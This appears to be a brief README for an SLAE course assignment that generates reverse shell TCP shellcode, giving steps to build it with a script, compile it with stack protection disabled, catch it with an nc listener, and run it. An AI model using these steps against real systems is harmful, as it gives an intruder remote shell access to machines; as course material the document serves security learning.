 https://securitychops.com/2018/05/21/slae-assignment-2-reverse-shell-tcp-shellcode.html

1. Run ./shellcode-generator.py PortNumber IpAddress
    - (ie ./shellcode-generator.py 4444 10.0.7.17)
2. Paste shellcode into shellcode.c
3. Compile with: gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
4. On machine to connect to: nc -nvlp port-number
5. From machine to connect from: ./shellcode
6. Done
